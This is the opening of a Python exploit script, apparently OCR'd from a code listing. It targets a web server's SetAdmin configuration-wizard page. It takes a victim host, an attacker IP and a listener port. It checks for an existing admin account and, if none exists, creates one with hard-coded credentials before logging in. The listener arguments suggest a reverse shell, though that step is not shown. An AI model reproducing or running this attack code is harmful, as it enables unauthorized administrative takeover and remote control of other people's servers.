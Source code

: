 #Options for user registration, if no user has been created yet   
username = 'admin'  
password = 'asdasd'  
email = 'admin@admin.com'  
  
parser = argparse.ArgumentParser()  
parser.add_argument("-r","--rhost", help = "Victims ip/url (omit the http://)", required = True)  
parser.add_argument("-rp","--rport", help = "http port [Default 80]")  
parser.add_argument("-l","--lhost", help = "Your IP", required = True)  
parser.add_argument("-p","--lport", help = "Port you have your listener on", required = True)  
args = parser.parse_args()  
  
LHOST = args.lhost  
LPORT = args.lport  
url = args.rhost  
if args.rport != None:  
    port = args.rport  
else:  
    port = 80  
  
def main():  
    checkAccount()  
  
def checkAccount():  
    print(f"{Fore.YELLOW}[*]{Fore.WHITE} Checking for admin user...")  
    s = requests.Session()  
      
    # Go to the set admin page... if page contains "User database already saved" then there are already admin creds and we will try to login with the creds, otherwise we will manually create an account  
    r = s.get(f"http://{url}:{port}/Config-Wizard/wizard/SetAdmin.lsp")   
    soup = BeautifulSoup(r.content, 'html.parser')  
    search = soup.find('h1')  
      
    if r.status_code == 404:  
        print(Fore.RED + "[!]" + Fore.WHITE +" Page not found! Check the following: \n\tTaget IP\n\tTarget Port")  
        exit(0)  
  
    userExists = False  
    userText = 'User database already saved'  
    for i in search:  
        if i.string == userText:  
            userExists = True  
      
    if userExists:  
        print(f"{Fore.GREEN}[+]{Fore.WHITE} An admin user does exist..")  
        login(r,s)  
    else:  
        print("{Fore.GREEN}[+]{Fore.WHITE} No admin user exists yet, creating account with {username}:{password}")  
        createUser(r,s)  
        login(r,s)  
  